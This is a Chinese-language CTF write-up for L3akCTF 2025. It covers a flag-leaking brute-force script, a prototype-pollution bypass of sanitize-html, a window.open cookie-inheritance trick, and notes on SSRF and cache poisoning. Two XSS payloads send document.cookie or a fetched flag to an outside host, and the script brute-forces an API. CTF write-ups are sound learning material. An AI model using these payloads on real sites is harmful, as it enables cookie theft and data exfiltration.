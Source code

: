 ```yaml
---
title: L3akCTF2025 Writeup & 复盘
date: 2025-07-28T16:25:41+08:00
tags:
  - CTF
---
```

拿到468分，取得493名的垫底成绩。

# Flag L3ak

```js
    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));
```

大意是有一个flag，但flag会被替换成`*`，然后限制输入内容不得大于3个字符。

虽然看不到flag，但是注意到如果`query`的内容包含flag，那么对应结果也会被返回，即使看不到flag

通过*两个已知字符+一个未知字符*的方式可以逐位leak出flag。

```js
const url = "http://34.134.162.213:17000/api/search"

const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+[]{}|;:',.<>?/~`\"";
////////////////************************
const prefix = "L3AK{L3ak1ng_th3_Fl4g??}"

;(async()=>{
    for (let i = 0; i < charset.length; i++) {
        const char = charset[i];
        const query = prefix.substring(prefix.length-2) + char;
  
        try {
            const response = fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ query })
            }).then(res => res.json()).then(
                data=>{
            
            console.log(`Character: ${char}, Response:`, data.count, data.count>0?"<--------------- FOUND":"");
                }
            );
        } catch (error) {
            console.error(`Error fetching for character ${char}:`, error);
        }
    }
})()
```

想到一个东西，如果flag中包含多于2种的>3个连续相同字符，那这个方案会解决不了，虽然题目中没有出现。

# NotoriousNote

```js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```

这个理论上就应该是XSS了，不过这边看起来没啥问题。

除了核心，还包含了两个js文件

一个`sanitize-html.min.js`，看了下是官方库+最新版，不像有洞的样子

另一个`Query.js`，定义了一个叫QueryArg的函数。查了npm没找到这个库，那么应该是自己写的了。直接拖给LLM看了一下，说有很严重的prototype polution风险

查到了这篇文章：[原型污染-并绕过客户端HTML过滤器-先知社区](https://xz.aliyun.com/news/7896)，说的就是用原型链污染绕过sanitize-html的

总之构造出payload：``/?__proto__.*=onload&note=<iframe onload="javascript:fetch(`https://dev.5dbwat4.top/r/${document.cookie}`)"></iframe>``

拿到flag：`L3AK{v1b3_c0d1n9_w3nt_t00_d33p_4nd_3nd3d_1n_xss}`

# Window of Opportunity

这不是当初ACTF 2025那道Note的非预期解吗

大概就是

```js
  await page.evaluate((targetUrl) => {
    window.open(targetUrl, "_blank");
  }, url);
```

这个行为会让新打开的窗口继承父窗口的上下文（这里主要是要利用它的cookie），因此可以利用这个特性。

payload：`javascript:fetch('/get_flag').then(v=>v.text()).then(v=>{fetch('https://dev.5dbwat4.top/aaa-'+v)})`

---

看了官方solution，他是自己新写了一个页面，然后用`window.opener`操作父窗口来获取flag。

# Others

然后还做出了一道geosint，一道Misc（`Solve the puzzles, shouldnt take more than 10 minutes to do by hand`），以及一道AI直出的Crypto题

# 复盘

主要是想看看Reverse里的两道JS Obfuscation题目，以及剩下来的Web题。

## not-a-vm

```js
const originalApply = Function.prototype.apply;
Function.prototype.apply = function (thisArg, args) {
  console.log(args?.[0])
  return originalApply.call(this, thisArg, args);
};
```

经典函数钩子

## gitbad

SSRF，用的是git submodule实现的

另外是这里也出现了和L3HCTF一样的cache-poisoning用法

（连续几次出现可以直接鉴定为常用技巧了）

查了一下cache-poisoning [Cache Poisoning and Cache Deception - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/cache-deception/index.html)

With the parameter/header identified check how it is being **sanitised** and **where** is it **getting reflected** or affecting the response from the header. Can you abuse it anyway (perform an XSS or load a JS code controlled by you? perform a DoS?...)

Once you have **identified** the **page** that can be abused, which **parameter**/**header** to use and **how** to **abuse** it, you need to get the page cached. Depending on the resource you are trying to get in the cache this could take some time, you might need to be trying for several seconds.

The header **`X-Cache`** in the response could be very useful as it may have the value **`miss`** when the request wasn't cached and the value **`hit`** when it is cached.
The header **`Cache-Control`** is also interesting to know if a resource is being cached and when will be the next time the resource will be cached again: `Cache-Control: public, max-age=1800`

Another interesting header is **`Vary`**. This header is often used to **indicate additional headers** that are treated as **part of the cache key** even if they are normally unkeyed. Therefore, if the user knows the `User-Agent` of the victim he is targeting, he can poison the cache for the users using that specific `User-Agent`.

One more header related to the cache is **`Age`**. It defines the times in seconds the object has been in the proxy cache.

When caching a request, be **careful with the headers you use** because some of them could be **used unexpectedly** as **keyed** and the **victim will need to use that same header**. Always **test** a Cache Poisoning with **different browsers** to check if it's working.
